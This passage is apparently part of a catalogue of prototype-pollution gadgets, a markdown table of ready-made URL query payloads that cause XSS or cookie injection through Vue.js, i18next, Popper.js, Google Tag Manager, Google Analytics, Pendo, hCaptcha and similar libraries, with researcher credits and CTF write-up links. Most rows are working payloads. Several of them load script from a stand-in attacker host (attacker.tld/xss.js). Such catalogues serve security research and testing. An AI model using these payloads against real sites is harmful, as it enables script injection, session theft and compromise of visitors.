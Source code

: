 | [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[attrs][0][name]=src`<br>`&__proto__[attrs][0][value]=xxx`<br>`&__proto__[xxx]=data:,alert(1)//`<br>`&__proto__[is]=script`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-bind:class]=''.constructor.constructor('alert(1)')()`           | XSS               | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [r00timentary](https://ctftime.org/team/32783) |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[data]=a`<br>`&__proto__[template][nodeType]=a`<br>`&__proto__[template][innerHTML]=<script>alert(1)</script>`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [SuperGuesser](https://twitter.com/SuperGuesser)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[props][][value]=a`<br>`&__proto__[name]=":''.constructor.constructor('alert(1)')(),"`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [st98_](https://twitter.com/st98_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[template]=<script>alert(1)</script>`  | XSS | [[1]](https://github.com/aszx87410/ctf-writeups/issues/24) | [huli](https://github.com/aszx87410/)               |
| [Demandbase Tag](/gadgets/demandbase-tag.md)            | `?__proto__[Config][SiteOptimization][enabled]=1`<br>`&__proto__[Config][SiteOptimization][recommendationApiURL]=//attacker.tld/json_cors.php?`  | XSS |  | [SPQR](https://twitter.com/amlnspqr) |
| [@analytics/google-tag-manager](/gadgets/analytics-google-tag-manager.md) | `?__proto__[customScriptSrc]=//attacker.tld/xss.js`                                                                            | XSS |  | [SPQR](https://twitter.com/amlnspqr) |
| [i18next](/gadgets/i18next.md) | `?__proto__[lng]=cimode`<br>`&__proto__[appendNamespaceToCIMode]=x`<br>`&__proto__[nsSeparator]=<img/src/onerror%3dalert(1)>`                                      | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [i18next < 19.8.5](/gadgets/i18next.md) | `?__proto__[lng]=a`<br>`&__proto__[a]=b`<br>`&__proto__[obj]=c`<br>`&__proto__[k]=d`<br>`&__proto__[d]=<img/src/onerror%3dalert(1)>`                      | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [i18next >= 19.8.5](/gadgets/i18next.md) | `?__proto__[lng]=a`<br>`&__proto__[key]=<img/src/onerror%3dalert(1)>`                                                                                    | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google Analytics](/gadgets/google-analytics.md)        | `?__proto__[cookieName]=COOKIE%3DInjection%3B`                                                                                            | Cookie Injection | | [Sergey Bobrov](https://twitter.com/Black2Fan)    |
| [Popper.js](/gadgets/popper.md) | `?__proto__[arrow][style]=color:red;transition:all%201s`<br>`&__proto__[arrow][ontransitionend]=alert(1)`<br><br>`?__proto__[reference][style]=color:red;transition:all%201s`<br>`&__proto__[reference][ontransitionend]=alert(2)`<br><br>`?__proto__[popper][style]=color:red;transition:all%201s`<br>`&__proto__[popper][ontransitionend]=alert(3)` | XSS | [[1]](https://github.com/aszx87410/ctf-writeups/issues/36) [[2]](https://lemonslab.me/posts/small-talk-writeup/) | [Matheus Vrech](https://twitter.com/vrechson) |
| [Pendo Agent](/gadgets/pendo-agent.md)                  | `?__proto__[dataHost]=attacker.tld/js.js%23`                                  | XSS               |                                                   | [Renwa](https://twitter.com/RenwaX23) |
| [script.aculo.us](/gadgets/scriptaculous.md)<br>String.constructor            | `?x=x`<br>`&x[constructor][__parseStyleElement][innerHTML]=<img/src/onerror%3dalert(1)>`                            | XSS |           | [Sergey Bobrov](https://twitter.com/Black2Fan) |
| [hCaptcha](/gadgets/hcaptcha.md) (**Fixed**)           | `?__proto__[assethost]=javascript:alert(1)//`                                 | XSS               |                                       | [Masato Kinugawa](https://twitter.com/kinugawamasato) |
| [Google Closure](/gadgets/closure.md)                   | `?__proto__[trustedTypes]=x`<br>`&__proto__[emptyHTML]=<img/src/onerror%3dalert(1)>`| XSS               |                                       | [Mathias Karlsson](https://twitter.com/avlidienbrunn) |
| [Google Tag Manager](/gadgets/google-tag-manager.md)    | `?__proto__[vtp_enableRecaptcha]=1`<br>`&__proto__[srcdoc]=<script>alert(1)</script>`| XSS              |                                       | [terjanq](https://twitter.com/terjanq) |
| [Google Tag Manager](/gadgets/google-tag-manager.md)    | `?__proto__[q][0][0]=require`<br>`&__proto__[q][0][1]=x`<br>`&__proto__[q][0][2]=https://www.google-analytics.com/gtm/js%3Fid%3DGTM-WXTDWH7`| XSS | | [Sergey Bobrov](https://twitter.com/Black2Fan) /<br>[Masato Kinugawa](https://twitter.com/kinugawamasato) |
| [Google Analytics](/gadgets/google-analytics.md)        | `?__proto__[q][0][0]=require`<br>`&__proto__[q][0][1]=x`<br>`&__proto__[q][0][2]=https://www.google-analytics.com/gtm/js%3Fid%3DGTM-WXTDWH7`| XSS | | [Sergey Bobrov](https://twitter.com/Black2Fan) /<br>[Masato Kinugawa](https://twitter.com/kinugawamasato) |
